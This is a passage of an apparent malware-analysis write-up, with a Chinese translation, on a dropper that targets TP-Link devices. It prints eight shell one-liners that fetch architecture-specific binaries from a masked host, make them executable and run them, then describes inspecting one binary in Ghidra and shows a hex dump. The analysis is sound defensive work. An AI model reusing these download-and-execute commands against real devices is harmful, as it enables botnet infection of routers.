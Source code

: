 ```

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O ██████ http://xxx.xxx.xxx.xxx/arm6; chmod +x ██████; ./██████ tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O ████ http://xxx.xxx.xxx.xxx/arm7; chmod +x ████; ./████ tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O ████ http://xxx.xxx.xxx.xxx/i586; chmod +x ████; ./████ tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O kekw http://xxx.xxx.xxx.xxx/i686; chmod +x kekw; ./kekw tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O what http://xxx.xxx.xxx.xxx/powerpc; chmod +x what; ./what tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O kys http://xxx.xxx.xxx.xxx/sh4; chmod +x kys; ./kys tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O ████eater http://xxx.xxx.xxx.xxx/m68k; chmod +x ████eater; ./████eater tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O blyat http://xxx.xxx.xxx.xxx/sparc; chmod +x blyat; ./blyat tplink


```

The binaries appear to be named after the architecture of the target device which makes sense since the attacker may not know what architecture the device is running on. This would give them the most surface area to work with. (Note: I censored names because the attacker renamed the binaries to common slurs)  
二进制文件似乎以目标设备的体系结构命名，这是有道理的，因为攻击者可能不知道设备运行在什么体系结构上。这将为他们提供最大的工作表面积。（注意：我审查了名称，因为攻击者将二进制文件重命名为常见的诽谤）

I proceeded to download a binary incompatible with my environment as an additional precaution and installed Ghidra to investigate further. Looking through the binary only had 3 functions without a lot of string data. However, there was a large segment of data that looked like this.  
作为额外的预防措施，我继续下载了一个与我的环境不兼容的二进制文件，并安装了 Ghidra 以进一步调查。查看二进制文件只有 3 个函数，没有大量字符串数据。但是，有很大一部分数据看起来像这样。

```
        00107eb6 45              ??         45h    E
        00107eb7 43              ??         43h    C
        00107eb8 7c              ??         7Ch    |
        00107eb9 50              ??         50h    P
        00107eba 52              ??         52h    R
        00107ebb 4f              ??         4Fh    O
        00107ebc 54              ??         54h    T
        00107ebd 5f              ??         5Fh    _
        00107ebe 57              ??         57h    W
        00107ebf 52              ??         52h    R
        00107ec0 49              ??         49h    I
        00107ec1 54              ??         54h    T
        00107ec2 45              ??         45h    E
        00107ec3 20              ??         20h
        00107ec4 66              ??         66h    f
        00107ec5 61              ??         61h    a
        00107ec6 69              ??         69h    i
        00107ec7 6c              ??         6Ch    l
        00107ec8 65              ??         65h    e
        00107ec9 64              ??         64h    d
        00107eca 2e              ??         2Eh    .
        00107ecb 0a              ??         0Ah
        00107ecc 00              ??         00h
        00107ecd 0a              ??         0Ah
```